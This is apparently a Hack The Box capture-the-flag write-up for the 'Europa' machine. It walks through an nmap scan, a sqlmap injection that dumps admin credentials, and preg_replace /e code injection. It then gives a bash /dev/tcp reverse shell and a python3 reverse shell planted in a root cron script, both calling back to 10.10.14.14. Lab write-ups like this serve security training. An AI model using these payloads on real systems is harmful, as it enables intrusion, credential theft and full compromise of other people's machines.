 # Europa
#### 10.10.10.22

**Nmap**

```{r, engine='bash', count_lines}
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (EdDSA)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Issuer: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-04-19T09:06:22
| Not valid after:  2027-04-17T09:06:22
| MD5:   35d5 1c04 7ae8 0f5c 35a0 bc49 53e5 d085
|_SHA-1: ced9 8f01 1228 e35d 83d3 2634 b4c1 ed52 b917 3335
|_ssl-date: ERROR: Script execution failed (use -d to debug)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Opening :443 and :80 in browser doesn't give us anything relevant. However this line in the nmap scan looks interesting.

```
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
```

So lets change our hosts file accordingly and add:

```
10.10.10.22		admin-portal.europacorp.htb
```

Opening https://admin-portal.europacorp.htb now, redirects us to a login form. 
Lets see if the email or password is vulnerable to sql injection:

```
sqlmap -u https://admin-portal.europacorp.htb/login.php --data="email=abc'&password='" --dbms="MySQL" --technique=E  --dump --threads 8 --dbs

Database: admin
Table: users
[2 entries]
+----+----------------------+--------+---------------+----------------------------------+
| id | email                | active | username      | password                         |
+----+----------------------+--------+---------------+----------------------------------+
| 1  | admin@europacorp.htb | 1      | administrator | 2b6d315337f18617ba18922c0b9597ff |
| 2  | john@europacorp.htb  | 1      | john          | 2b6d315337f18617ba18922c0b9597ff |
+----+----------------------+--------+---------------+----------------------------------+
```

Awesome, we got a login name: **admin@europacorp.htb** and password hash: **2b6d315337f18617ba18922c0b9597ff**.
Decrypting the md5 hash with some online tools will translate to: **SuperSecretPassword!**
So our login is
**admin@europacorp.htb:SuperSecretPassword!**

Pretty sure we need to exploit the **OpenVPN Config Generator** located at https://admin-portal.europacorp.htb/tools.php. So after filling in a IP address a config gets generated with our IP address filled in at the locations of **ip_address**. After googling a bit we found out that the php function **preg_replace** is exploitable.

Okay intercepting the POST with BurpSuite and send it to the Repeater will leave us with a screen like this:
![index.php](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Europa/images/europa_burp.png "BurpSuite")


Because we have full access to the regex expression that is used in preg_replace();
We can pass the **e** modifier which will make the text being executed. I only want it to be executed once so I picked a pattern that only occurs once. As you can see I used **/remote_address/e** as the pattern and **phpinfo()** as the text. It executes perfectly as shown in the screenshot below.

![index.php](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Europa/images/burp_info.png "phpinfo")

So lets put our payload in the text parameter which is as follows:

```
system("/bin/bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/10.10.14.14/12345%200>%261'");
```
And send it while listening with netcat on port 12345
```
nc -nvlp 12345
```
![index.php](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Europa/images/shell.png "shell")

Perfect we got shell! We can find the user flag at /home/john/user.txt

```
2f8d40cc05295154a9c3452c19ddc221
```
Alright our next step is priv esc. 
There seems to be a directory called cronjobs lets see what is inside..

```
/var/www/cronjobs$ cat clearlogs
cat clearlogs
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```
So apparently this script calls another script located at /var/www/cmd/logcleared.sh, lets see if we can make it spawn another reverse shell with python3.

So I created a logcleared.sh containing this code:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",12346));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
and did
```
chmod 777 logcleared.sh
```
After waiting a minute listening with netcat on port 12346 we got another reverse shell with root privileges. 
Now simply cat the root.txt at /root/ et voilà :
```
7f19438b27578e4fcc8bef3a029af5a5
```